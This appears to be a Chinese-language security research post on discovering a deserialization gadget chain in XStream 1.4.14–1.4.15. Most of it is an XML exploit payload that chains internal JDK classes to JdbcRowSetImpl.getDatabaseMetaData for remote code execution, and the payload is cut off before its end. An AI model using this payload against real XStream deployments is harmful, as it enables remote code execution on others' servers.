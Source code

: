 观察Accessor$GetterSetterReflection.set函数可以发现，bean和value可以是任意类型，好像这条链是有戏的。

![image-20210119143716079](XStream 1.4.14-14.15 Gadget挖掘过程分享.assets/image-20210119143716079.png)

再回到上一步的startPacking函数，可以看到value被强制转换为了Collection 。函数入参确定的情况下，可操作性太少。

![image-20210119144002491](XStream 1.4.14-14.15 Gadget挖掘过程分享.assets/image-20210119144002491.png)

正当准备放弃的时候，看到了Accessor$GetterSetterReflection.get函数，与set函数不同的是，反射执行的是无参函数。然后再看到了调用链中NullSafeAccessor.get，都是Accessor类型，感觉可以做个替换（类型擦除的原因）。打开经过一番尝试之后就成功了。

![image-20210119144148710](XStream 1.4.14-14.15 Gadget挖掘过程分享.assets/image-20210119144148710.png)

接下来就是如何利用的问题，反射无参函数想要RCE，在ProcessBuilder被禁止的情况下，很容易想到的就是之前java反序列化中被经常利用的JdbcRowSetImpl，payload如下：

```xml
<java.util.PriorityQueue serialization="custom">
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
            <comparator class="sun.awt.datatransfer.DataTransferer$IndexOrderComparator">
                <indexMap class="com.sun.xml.internal.ws.client.ResponseContext">
                    <packet>
                        <message class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart">
                            <dataSource class="com.sun.xml.internal.ws.message.JAXBAttachment">
                                <bridge class="com.sun.xml.internal.ws.db.glassfish.BridgeWrapper">
                                    <bridge class="com.sun.xml.internal.bind.v2.runtime.BridgeImpl">
                                        <bi class="com.sun.xml.internal.bind.v2.runtime.ClassBeanInfoImpl">
                                            <jaxbType>com.sun.rowset.JdbcRowSetImpl</jaxbType>
                                            <uriProperties></uriProperties>
                                            <attributeProperties></attributeProperties>
                                            <inheritedAttWildcard class="com.sun.xml.internal.bind.v2.runtime.reflect.Accessor$GetterSetterReflection">
                                                <getter>
                                                    <class>com.sun.rowset.JdbcRowSetImpl</class>
                                                    <name>getDatabaseMetaData</name>
                                                    <parameter-types/>
                                                </getter>
                                            </inheritedAttWildcard>
                                        </bi>
                                        <tagName></tagName>
                                        <context>
                                            <marshallerPool class="com.sun.xml.internal.bind.v2.runtime.JAXBContextImpl$1">
                                                <outer-class reference="../.."/>
                                            </marshallerPool>
                                            <nameList>
                                                <nsUriCannotBeDefaulted>
                                                    <boolean>true</boolean>
                                                </nsUriCannotBeDefaulted>
                                                <namespaceURIs>
                                                    <string>1</string>
                                                </namespaceURIs>
                                                <localNames>
                                                    <string>UTF-8</string>
                                                </localNames>
                                            </nameList>
                                        </context>
                                    </bridge>
                                </bridge>
```